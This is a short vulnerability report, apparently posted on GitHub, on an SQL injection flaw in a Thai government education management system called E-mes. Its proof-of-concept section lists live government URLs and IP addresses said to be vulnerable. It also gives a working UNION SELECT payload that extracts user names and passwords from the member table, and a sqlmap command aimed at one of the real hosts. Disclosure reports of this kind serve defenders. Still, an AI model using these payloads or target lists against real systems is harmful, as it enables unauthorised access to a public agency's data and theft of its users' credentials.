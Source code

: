 Describe：
E-mes is an education management system of Thailand's basic education department. It has a serious SQL injection vulnerability, through which many sensitive information in the database can be obtained. This affects the whole e-mes version. As this is a system of the Thai government department, it can't be found on GitHub for the time being

`Attack Vectors`
> A SQL injection vulnerability exists in the school information query interface (repschoolproj.php) of the EMS system of the Office of the Thai Basic Education Commission, which can lead to important data leakage.This website is owned by the Thai government, and if it is not repaired in time, it may lead to information leakage.

`POC:` 
> 1.http://eme1.obec.go.th/~eme62/repschoolproj.php?claster=school&idarea=648
> 2.http://203.159.250.192/~eme52/repschoolproj.php?claster=school&idarea=648
> 3.http://203.159.250.194/~eme53/repschoolproj.php?claster=school&idarea=648
> 4.http://203.159.164.54/~eme54/repschoolproj.php?claster=school&idarea=648
> 5.http://203.159.250.193/~eme63/repschoolproj.php?claster=school&idarea=648
> 6.more.....
> Exploit:
> http://localhost/eme/repschoolproj.php?claster=school&idarea=648 repschoolproj.php?claster=school&idarea=648 /**/uNiOn /**/select/**/ 1,1,user,1,1,1,1,1,2,3,4,5,6,7,1,1,9,10,passwd,12,13,1,1,1,1,user(),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1 from member#
> This exp can get the login account and password of the e-mes system
> photo proof:
![图片](https://user-images.githubusercontent.com/110643835/188271608-f84fa56c-e571-4bad-977d-1f3758c20f6f.png)
![图片](https://user-images.githubusercontent.com/110643835/188271644-c6d1d05c-09ec-4785-9507-0809d0c48e22.png)

Or use sqlmap for injection
> POC: sqlmap.py -u "http://203.159.164.54/~eme54/repschoolproj.php?claster=school&idarea=648*"

